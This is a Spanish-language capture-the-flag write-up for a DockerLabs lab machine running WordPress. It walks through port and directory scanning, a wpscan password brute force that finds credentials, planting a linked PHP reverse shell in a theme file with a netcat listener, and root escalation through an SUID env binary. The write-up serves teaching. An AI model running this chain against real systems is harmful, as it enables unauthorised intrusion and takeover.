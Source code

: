 # MACHINE WALKINGCMS

## INFORMACIÓN GENERAL

- **Plataforma**: DockerLabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

![machine_dockerlabs](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/machine_dockerlabs.png)

## DESPLIEGUE

```python
bash autodeploy.sh walkingcms.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/DESPLIEGUE.png)

## RECONOCIMIENTO

```python
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```

```ruby
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-03-03 21:58:18 -05 for 11s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Si nos vamos a la web que aloja el puerto 80, nos encontramos con la informacion del servidor de apache

![info_apache](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/info_apache.png)

en este caso vamos a enumerar un poco con *Gobuster* a ver que nos encontramos

## ENUMERACIÓN
```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404,500,502
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php,xml,csv
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
```
Si nos fijamos tenemos un directorio muy interesnate que es `wordpress`, vamos a ver que contiene

![wordpress1](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/wordpress1.png)

No encontramos nada intersante, vamos a seguir enumerarando directorios por detras de `http://172.17.0.2/wordpress`

```ruby
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404 
```
```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   500,502,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              csv,html,txt,php,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7409]
/wp-login.php         (Status: 200) [Size: 7765]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
```
Si nos fijamos tenemos varios recuros de `wordpress`, hay un archivo que muchas veces suele ser una via potencial de ataque que es el 
`/xmlrpc.php (es un archivo en WordPress que habilita la comunicación remota con el sitio usando el protocolo XML-RPC)`, pero si lo examinos solo nos muestra un mensaje que dice `XML-RPC server accepts POST requests only.`

Como tenemos un `wordpress`, vamos a enumerarlo, para ver si encontramos algo intersante

```ruby
wpscan --url http://172.17.0.2/wordpress/ --enumerate u, vp
```

-**`--enumerate`**: Este parámetro es para indicar que tipo de informacion queremos enumerar

-**`u`**: parámetro para enumerar usuarios

-**`vp`**: parámetros para enumerar pluggins vulnerables

![wpscan](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/wpscan.png)

Vemos que nos encuentra un usuario de nombre `mario` y el tema que se esta actualizando `twentytwentytwo` y que esta desactualizaca, y la ruta donde la podemos 
encontrar


## EXPLOTACION
*COMO TENEMOS UN USUARIO Y UN `wp-login.php`, vamos a aplicar una fuerza bruta a ver si encontramos la password
```ruby
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```
```ruby
[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                              
Trying mario / dakota Time: 00:00:05 <                                                                                                                                                        > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Hemos encontrado las credenciales del `wordpress` que son `mario:love`, nos logeamos y una vez adentro podemos revisar `Apariencia/Theme Code Editor`, para ver si nos podemos aprovechar de algo como nos enumero `wpscan`

![twenty_twenty_to](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/twenty_twentyto.png)

Tenemos capacidad de escribir codigo, facilmente nos podemos montar un codigo de una `reverse shell`, vamos a usar el codigo php de nuestro amigo `Pentest Monkey`


Web: [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Borramos el codigo original y copiamos el `php-reverse.shell.php` ajustando parametros necesarios y nos ponemos en escucha con netcat 
```ruby
nc -nlvp 1234
```

Usamos la ruta de los temas, nos lo enumeró `wpscan` si se acuerdan
```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```
![reverse_shell_exitosa](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/reverse_shell_exitosa.png)

Hemos realizado la `reverse shell` con exito ahora el siguiente paso es poder escalar privilegios a `root`

### Tratamiento de la TTY
```ruby
script /dev/null -c bash
ctrl + z
stty raw -echo:fg
        reset xterm
export TERM=xterm
export SHELL=bash
```

# ESCALADA DE PRIVILEGIOS 

Si hacemos `sudo -l` no reconoce el comando entonces vamos a tratar de abusar de permisos SUID si encontramos
```ruby
find / -perm -4000 2>/dev/null 
```

![SUID_env](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/SUID_env.png)

Como tenemos `/usr/bin/env` con permisos SUID, visitamos [GFTObins](https://gtfobins.github.io/gtfobins/env/#sudo) una web famosa para la *Escalada de Privilegios y Bypasses de Restricciones*

![GTFObins](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/GTFObins.png)

```ruby
./env /bin/sh -p
```
![root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/root.png)






